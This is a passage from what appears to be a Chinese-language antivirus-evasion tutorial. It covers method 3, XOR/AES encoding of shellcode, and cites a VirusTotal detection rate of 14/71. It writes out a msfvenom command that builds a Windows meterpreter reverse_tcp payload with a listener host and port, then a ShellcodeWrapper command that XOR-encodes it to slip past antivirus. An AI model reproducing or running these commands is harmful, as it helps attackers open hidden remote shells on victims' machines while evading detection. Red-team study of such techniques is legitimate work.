 virustotal.com中8/70个报毒

![340dca4a6bf7abe02fa1facc8580cab0](images/2020.03-bypass-04/10.png)

## 2.3 方法3：XOR/AES编码shellcode(VT免杀率14/71)

这个和专题27中介绍的C++的XOR编码方式一样。

需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`

先用msfvenom生成一个raw格式的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw > shellcode.raw
```

在`ShellcodeWrapper`文件夹中执行下面命令，其中`tidesec`为自己设置的key。
```
python shellcode_encoder.py -cpp -cs -py shellcode.raw tidesec xor
```
![616641780f9e39cdae5a13da8dd5805e](images/2020.03-bypass-04/11.png)
